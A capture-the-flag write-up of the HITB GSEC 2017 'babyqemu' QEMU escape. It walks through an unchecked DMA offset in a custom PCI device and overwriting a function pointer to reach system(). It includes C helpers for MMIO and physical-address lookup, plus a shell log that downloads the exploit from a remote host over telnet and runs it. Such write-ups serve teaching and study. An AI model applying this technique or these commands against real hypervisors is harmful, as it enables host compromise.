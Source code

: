 ```yaml
---
layout: post
title: "HITB GSEC 2017: babyqemu"
categories: writeups hitb2017
tags: exploitation
authors:
  - saelo
---
```


This is a short writeup explaining how I solved the "babyqemu" challenge of
HITB GSEC 2017. I greatly enjoyed solving the challenge since I had never
before written any kind of hypervisor escape.

## Overview

For this challenge, players were given [a tar.gz](https://github.com/kitctf/writeups/blob/master/hitb-gsec-2017/babyqemu/babyqemu.tar.gz) file containing the
following files:


    -rwxr-xr-x    1 sam  staff   281B Jul 11 15:38 launch.sh
    drwxr-xr-x   59 sam  staff   2.0K Jul 11 13:36 pc-bios
    -rwxr-xr-x    1 sam  staff    38M Jul 11 13:32 qemu-system-x86_64
    -rw-r--r--    1 sam  staff   3.7M Jul 11 13:32 rootfs.cpio
    -rwxr-xr-x    1 sam  staff   7.0M Jul 11 13:35 vmlinuz-4.8.0-52-generic

The launch.sh script contains the following:

{% highlight bash %}
#!/bin/sh
./qemu-system-x86_64 \
-initrd ./rootfs.cpio \
-kernel ./vmlinuz-4.8.0-52-generic \
-append 'console=ttyS0 root=/dev/ram oops=panic panic=1' \
-enable-kvm \
-monitor /dev/null \
-m 64M --nographic  -L ./dependency/usr/local/share/qemu \
-L pc-bios \
-device hitb,id=vda
{% endhighlight %}

Note the last line, in which a custom `hitb` device is made available for the
guest operating system. It seems our goal is to exploit the emulation code for
this device and gain code execution inside the qemu process (running the
`qemu-system-x86_64` executable). The fact that we can simply login as root on
the provided machine (and remotely) without a password supports this theory.

## Reversing the device emulator

Fortunately, the provided `qemu-system-x86_64` was not stripped (and even
contained debug symbols, giving us structure layouts) so we have all the
function names.  Loading the `qemu-system-x86_64` into IDA, we can filter for
all functions containing the word `hitb` and are left with a fairly short list
of relevant functions:

    Function name                        Segment Start            Length
    -------------                        ------- -----            ------
    do_qemu_init_pci_hitb_register_types .text   0000555555754BF0 00000011
    hitb_enc                             .text   00005555557D7DD0 0000001E
    pci_hitb_register_types              .text   00005555557D7DF0 0000000C
    hitb_class_init                      .text   00005555557D7E00 0000006F
    pci_hitb_uninit                      .text   00005555557D7E70 00000060
    hitb_instance_init                   .text   00005555557D7ED0 00000069
    hitb_obj_uint64                      .text   00005555557D7F40 00000011
    hitb_raise_irq                       .text   00005555557D7F60 0000002B
    hitb_fact_thread                     .text   00005555557D7F90 000000F9
    hitb_dma_timer                       .text   00005555557D8090 0000010F
    hitb_mmio_write                      .text   00005555557D81A0 000002A0
    hitb_mmio_read                       .text   00005555557D8440 00000148
    pci_hitb_realize                     .text   00005555557D8590 000000D0

The registered PCI device uses the following struct to store any state:

    00000000 HitbState       struc ; (sizeof=0x1BD0, align=0x10, copyof_1490)
    00000000 pdev            PCIDevice_0 ?
    000009F0 mmio            MemoryRegion_0 ?
    00000AF0 thread          QemuThread_0 ?
    00000AF8 thr_mutex       QemuMutex_0 ?
    00000B20 thr_cond        QemuCond_0 ?
    00000B50 stopping        db ?
    00000B58 fact            dd ?
    00000B5C status          dd ?
    00000B60 irq_status      dd ?
    00000B68 dma             dma_state ?
    00000B88 dma_timer       QEMUTimer_0 ?
    00000BB8 dma_buf         db 4096 dup(?)
    00001BB8 enc             dq ?                    ; offset
    00001BC0 dma_mask        dq ?
    00001BD0 HitbState       ends

    00000000 dma_state       struc ; (sizeof=0x20, align=0x8, copyof_1488)
    00000000 src             dq ?
    00000008 dst             dq ?
    00000010 cnt             dq ?
    00000018 cmd             dq ?
    00000020 dma_state       ends

Reversing the code a bit, we see that:

* The code registers a custom PCI device names 'hitb' and allocates an
  [I/O memory](https://en.wikipedia.org/wiki/Memory-mapped_I/O) region for it. With
  memory mapped I/O, the guest can read and write device "registers" simply by
  reading from and writing to specific *physical* addresses.

* The registered device has handler functions (`hitb_mmio_write` and
  `hitb_mmio_read`) for read and write accesses from the guest to the allocated
  memory region. These handlers will be called everytime the guest operating
  systems accesses a physical address inside the range allocated for the PCI
  device.

* The device supports a custom DMA mechanism, allowing the guest operating
  system to read and write data into a fixed-sized buffer (`dma_buf`) inside of
  the device structure

The DMA buffer can be written to in the following way:

1. The guest writes the physical address of the source buffer to the `dma.src`
   register (by writing to offset 128 in the iomem region)
2. The guest writes the host buffer offset into the `dma.dst` register (offset 136)
3. The guest writes the number of bytes to copy into the `dma.cnt` register (offset 144)
4. The guest writes the constant 1 into the `dma.cmd` register (offset 152)

This will schedule the execution of a separate function which essentially
performs a memcpy from the given guest buffer into the host buffer.

Reading back the content of the DMA buffer works essentially the same, except
that src and dst need to be exchanged.

Looking at the code, we can see that no validation is performed on the given
offset into the DMA buffer. As such we can read to and write from arbitrary
memory adjacent to the hitb device instance (since the buffer is embedded into
the structure, and not just a pointer to it).

Conveniently, a function pointer (`enc`) is located right after the storage
buffer and will be called if the guest requests "encrypted" DMA transfers
(which simply XORs all data with 0x66). The first argument for that function
will be a pointer into the `dma_buf`, thus containing attacker controlled data.
Even more conveniently, the `system` function is linked into the qemu binary,
so we don't even need to leak the address of libc.

All we have left to do is implement I/O memory accesses from the guest.

## Memory mapped I/O from Linux usermode

Access to (almost) the whole physical memory is possible in Linux by open()ing
and mmap()ing `/dev/mem`. However, in our case there is a simpler way: the
device directory under /sys contains a pseudofile named "resource0", which
gives the user a "view" onto the physical memory used by the device.  In our
case, the full path for this device file is
`/sys/devices/pci0000:00/0000:00:04.0/resource0`.

With that, reading e.g. the register at offset 128 (the `dma.src` register) can
be performed with the following C code:

{% highlight c %}
void* iomem;

void iowrite(uint64_t offset, uint64_t value)
{
    *((uint64_t*)(iomem + offset)) = value;
}

int main()
{
    int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);

    iomem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);

    iowrite(128, 0x1337);

    return 0;
}
{% endhighlight %}

To use the DMA mechanism, we also need the physical address of a buffer that we
can write to and read from. Fortunately, Linux provides the `/proc/$pid/pagemap`
[pseudofile](https://www.kernel.org/doc/Documentation/vm/pagemap.txt), which
gives us excactly this information. Using this pseudofile, we can obtain the
physical address for a virtual address in our process using the following C
code:

{% highlight c %}
uint64_t virt2phys(void* p)
{
    uint64_t virt = (uint64_t)p;

    // Assert page alignment
    assert((virt & 0xfff) == 0);

    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd == -1)
        die("open");

    uint64_t offset = (virt / 0x1000) * 8;
    lseek(fd, offset, SEEK_SET);

    uint64_t phys;
    if (read(fd, &phys, 8 ) != 8)
        die("read");

    // Assert page present
    assert(phys & (1ULL << 63));

    phys = (phys & ((1ULL << 54) - 1)) * 0x1000;
    return phys;
}
{% endhighlight %}

With that we have everything to reach the vulnerable code inside the custom
qemu binary.

## Putting everything together

The exploit now does the following:

1. Use the out-of-bounds DMA access to read the value of the `enc` function
   pointer
2. Add the offset to the PLT stub for `system` to that pointer and write it
   back using the DMA bug again
3. Write the string `cat flag` into the DMA page. This will be the first
   argument to the `enc` function pointer
4. Perform an "encrypted" DMA transfer to call the function pointer

Here is the exploit in action:


    __        __   _                            _          _   _ ___ _____ ____
    \ \      / /__| | ___ ___  _ __ ___   ___  | |_ ___   | | | |_ _|_   _| __ )
     \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \  | |_| || |  | | |  _ \
      \ V  V /  __/ | (_| (_) | | | | | |  __/ | || (_) | |  _  || |  | | | |_) |
       \_/\_/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  |_| |_|___| |_| |____/

    Welcome to HITB
    HITB login: root
    # telnet 128.199.51.139 5555 > pwn.b64
    # base64 -d pwn.b64 > pwn
    # chmod +x pwn
    # ./pwn
    iomem @ 0x7fec5fa96000
    DMA buffer (virt) @ 0x7fec5fa95000
    DMA buffer (phys) @ 0x20e7000
    binary @ 0x561d2185a000
    HITB{907825fdd6e748fb84850c11ce0bef8d}

The full exploit can be found [here](https://github.com/kitctf/writeups/blob/master/hitb-gsec-2017/babyqemu/pwn.c).
